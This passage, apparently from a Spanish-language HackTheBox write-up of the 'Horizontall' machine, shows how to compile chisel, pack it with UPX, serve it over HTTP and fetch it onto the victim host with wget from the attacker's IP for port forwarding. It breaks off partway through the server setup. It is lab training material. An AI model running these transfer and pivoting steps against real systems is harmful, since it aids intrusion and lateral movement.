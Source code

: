 Vemos que hay una pagina web con laravel.

Utilizaremos chisel para jugar con port forwarding. Nos dirigimos a github y nos clonamos el repositorio en exploits.

```bash
git clone https://github.com/jpillora/chisel.git
```

Nos metemos en chisel y compilamos.

```bash
go build -ldflags "-s -w" .
```

Ahora con UPX vamos a reducir mas el peso de chisel

```bash
upx chisel
```

Una vez hecho esto nos transferiremos el chisel a la maquina victima. En nuestra maquina colocamos.

```bash
python3 -m http.server 80
```

Y en la maquina victima nos dirigimos al directorio tmp y nos bajamos el chisel.

```bash
wget http://10.10.14.7/chisel
```

![Hackforce-2022-12-12-02-45-39.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-02-45-39.png)

Luego le damos permisos de ejecución chmod + x chisel.

Ahora para utilizar chisel vamos a montarnos un servidor en nuestra maquina por el puerto que queramos.
